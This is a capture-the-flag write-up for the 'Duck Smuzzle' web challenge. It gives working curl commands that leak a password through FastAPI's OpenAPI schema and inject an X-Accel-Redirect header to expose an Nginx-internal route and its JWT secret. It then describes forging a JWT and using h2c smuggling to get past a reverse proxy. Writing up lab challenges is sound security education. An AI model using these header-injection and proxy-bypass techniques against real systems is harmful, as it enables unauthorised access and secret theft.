

# Duck Smuzzle - Writeup

There are two WAF/reverse-proxy layers, Nginx and Caddy, which prevent us from directly accessing the `/duck` route. On top of that, the JWT also needs to contain the role `duck`.

From the Dockerfile, we can see that the password is generated as a random string. This same random string is also used as the backend function name because `REDACTED` is replaced inside `app.py`:

```bash
RUN python -c "import pathlib,secrets,string; p=pathlib.Path('app.py'); token=secrets.choice(string.ascii_letters)+''.join(secrets.choice(string.ascii_letters+string.digits) for _ in range(31)); p.write_text(p.read_text().replace('REDACTED', token))"
```

In the FastAPI source, the `/duck` route looks like this:

```python
@app.get("/duck")
async def REDACTED(
    password: str,
    sid: str | None = Cookie(default=None),
):
```

FastAPI exposes an OpenAPI schema at `/openapi.json`. By accessing this route, we can leak information about the backend routes, including the generated function name.

```bash
curl -H "x-forwarded-for: 67.67.67.67" http://duck-smuzzle.v1t.site:81/openapi.json
```

The response contains the `/duck` route:

```json
{
  "paths": {
    "/duck": {
      "get": {
        "summary": "D8Xao6H7Encgx5V4Fwhsbvgztypnebkq",
        "operationId": "d8XAO6H7enCGx5V4fWhsBvgztyPNEbKq_duck_get",
        "parameters": [
          {
            "name": "password",
            "in": "query",
            "required": true
          },
          {
            "name": "sid",
            "in": "cookie",
            "required": false
          }
        ]
      }
    }
  }
}
```

The important part is the `operationId`. The function name appears before `_duck_get`, so we can recover the password:

```text
d8XAO6H7enCGx5V4fWhsBvgztyPNEbKq
```

With this password, we can now access the `/flag` route.

The `/flag` route accepts `x`, `y`, and `password` parameters. By setting the response header name and value through `x` and `y`, we can inject:

```http
X-Accel-Redirect: /private
```

This makes Nginx serve the internal `/private` route, which leaks the `JWT_SECRET`.

```bash
curl -H "x-forwarded-for: 67.67.67.67" \
  "http://duck-smuzzle.v1t.site/flag?password=d8XAO6H7enCGx5V4fWhsBvgztyPNEbKq&x=X-Accel-Redirect&y=/private"
```

Response:

```text
"12e0db9e5293a39a3fef69794e84bfc55054d7c7ba452e908bc035163c0f754d"
```

Now that we have the `JWT_SECRET`, we can craft a valid JWT with:

```json
{
  "role": "duck"
}
```

Then we sign it using the leaked secret, for example with https://jwt.io/.

At this point, we have a valid JWT, but we still need to send it to `/duck` while bypassing the WAF. The question is: which layer should we bypass, Caddy or Nginx?

After some research, one interesting technique is h2c smuggling:

https://hacktricks.wiki/en/pentesting-web/h2c-smuggling.html



From the list, Nginx is usually not vulnerable unless it is misconfigured. But what about Caddy? It is not even shown in the list.

The rest is left as an research. Do your own research, learn something new, and have fun.

Flag:

```text
v1t{wh0_smuggl3_my_403}
```
